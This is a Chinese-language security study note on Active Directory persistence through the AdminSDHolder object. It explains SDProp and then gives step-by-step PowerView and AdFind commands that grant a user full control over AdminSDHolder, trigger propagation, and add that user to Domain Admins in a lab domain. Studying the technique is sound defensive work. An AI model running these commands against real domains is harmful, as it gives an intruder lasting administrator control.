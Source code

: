 # 修改 AdminSDHolder 进行域维权

##### AdminCount 属性

用于标记管理员的一个属性，当用户在管理员组中时，它的 AdminCount 为1。

##### AdminSDHolder 对象

里面存放着域用户的 acl 作为备份。防止重要用户的 acl 被篡改时，简化还原过程。

##### SDProp 进程

SDProp 进程每隔一段时间将 AdminCount 属性为 1 的用户的 acl 与 AdminSDHolder 中此用户下的 acl 进行对比，如果不相同，说明用户的 acl 被篡改，SDProp 进行将会修改用户的 acl 来确保与 AdminSDHolder 中的相关 acl 保持一致。

##### 权限维持

```
# 查询 AdminCount 属性为 1 的用户
adfind.exe -b dc=HACK,dc=com -f "adminCount=1" -dn
```

![image-20250218154837242](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218154837242.png)

攻击者通过赋予普通用户 hacker 的 AdminSDHolder 完全控制权限，并篡改其中的 acl，并利用 SDProp 进程的工作机制，间接修改普通用户的权限。

```
# 添加 hacker 用户对 AdminSDHolder 的完全控制权限，并篡改 AdminSDHolder 中 hacker 用户的 acl 配置。此脚本篡改 AdminSDHolder 中的 acl 使 hacker 对 Domain Admins 和 Enterprise Admins 组有完全控制权限。

Import-Module .\powerview.ps1
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=HACK,DC=com" -PrincipalIdentity hacker -Rights All -Verbose
```

![image-20250218155102307](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218155102307.png)

```
# 查询 AdminSDHolder 的 ACL 配置
AdFind.exe -s base -b "CN=AdminSDHolder,CN=System,DC=HACK,DC=com" nTSecurityDescriptor -sddl+++ -sddlfilter ;;;;;HACK\hacker

# 看到 HACK\hacker 有完全控制权限
```

![image-20250218155145619](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218155145619.png)

```
# Invoke-ADSDPropagation.ps1 脚本触发 SDProp 进程

Import-Module .\Invoke-ADSDPropagation.ps1;
Invoke-ADSDPropagation -TaskName runProtectAdminGroupsTask
```

```
# 查看 hacker 用户是否对 Domain Admins 有完全控制权限。
AdFind.exe -s base -b "CN=Domain Admins,CN=Users,DC=HACK,DC=com" nTSecurityDescriptor -sddl+++ -sddlfilter ;;;;;HACK\hacker

除此之外，hacker 用户对 Enterprise Admins 组和域管理员 administrator 都有完全控制权限
```

![image-20250218155629112](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218155629112.png)

```
# 将 hacker 用户加入 Domain Admins。
net group "domain admins" hacker /add /domain
```

![image-20250218155836251](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218155836251.png)